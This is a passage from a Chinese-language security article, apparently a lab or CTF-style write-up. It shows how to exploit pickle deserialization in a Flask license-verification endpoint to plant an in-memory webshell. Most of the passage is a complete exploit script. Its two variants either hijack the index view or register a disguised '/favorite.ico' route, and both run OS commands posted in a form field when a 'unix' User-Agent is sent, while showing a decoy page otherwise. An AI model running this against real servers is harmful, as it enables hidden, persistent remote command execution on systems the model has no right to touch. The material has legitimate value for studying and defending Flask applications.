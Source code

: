 ![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwKkGeo6vjyyoibt9MmOIStyEQj9lBwL7CvDdl0D3OPCxJa29VvaI0Slicw/640?wx_fmt=jpeg&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwK45SfTGjicgbibaQd00RxxeH66eUYlGHgIYmjh5L4Ju2o5bICnSOoNvDQ/640?wx_fmt=jpeg&from=appmsg "")  
  
除此之外，还可以打内存马。打内存马的基本逻辑就是通过反序列化动态注册一条路由或者修改原有路由的视图函数。  
  
在flask中用@app.route装饰器注册路由，本质上用的是是add_url_rule方法。当然，也可以直接用add_url_rule方法去注册。该方法可接收rule、endpoint、view_func、**options等参数用于定义路由和绑定视图函数。  
  
在flask源码中跟踪该方法发现关键的步骤是下图的两个操作![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwKcjFIxHAQibbfTlaNqhKkAUPcH5qXyYFZ6ELS7ske0P1LBjtPEpH9j1w/640?wx_fmt=jpeg&from=appmsg "")  
  
  
因此，我们可以直接获取app对象然后去操作这两个方法。可以直接新增一条路由并自定义一个视图函数来打内存马，也可以不新增路由，直接修改现有的视图函数，通过逻辑判断来决定是否进入内存马方法。  
  
两种方式，构造exp如下：  
```
import pickle
import requests

mem_shell_1 = '''from flask import current_app,requestdef a():    try:        if 'unix' in request.headers.get('User-Agent'):            cmd=request.form['data']            res=__import__('os').popen(cmd).read()        else:            res=verifyLic2()    except Exception as e:        res=index()    return rescurrent_app.view_functions.update({'index':a})'''

mem_shell_2 = '''from flask import current_app,requestfrom werkzeug.routing import Ruledef b():    def fake_page():        return '伪装成正常逻辑响应页面、waf拦截页面、404页面、重定向到首页等操作'    try:        if 'unix' in request.headers.get('User-Agent'):            cmd=request.form['data']            res=__import__('os').popen(cmd).read()        else:            res=fake_page()    except Exception as e:        res=fake_page()    return resrule = Rule('/favorite.ico', endpoint='b',methods=['GET','POST'])current_app.url_map.add(rule)current_app.view_functions.update({'b':b})'''


class Payload:
    def __reduce__(self):
        # 直接在原来的路由上打内存马
        return (exec, (mem_shell_1,))
        # # 新增一条路由打内存马
        # return (exec, (mem_shell_2,))


serialized = pickle.dumps(Payload())
file = {'lic': ('lic.bin', serialized, 'application/binary')}
res = requests.post('http://127.0.0.1:8888/verifyLic', files=file, proxies={'http': '127.0.0.1:8080'})
print(res.text)

```  
  
1、直接在原来的路由上打内存马，修改一个已有的函数  
  
正常访问首页![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwKPZ76kbsU0eeKYEVib7Ac8pibic0d3Tennic5akragsFr8Qpzr7IxZZEokQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
访问内存马![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwKFRWDobG5K1Jic05bQqBPqEugTDITtLDUKLPSycV7w2UbQbyIbib2LW7Q/640?wx_fmt=jpeg&from=appmsg "")  
  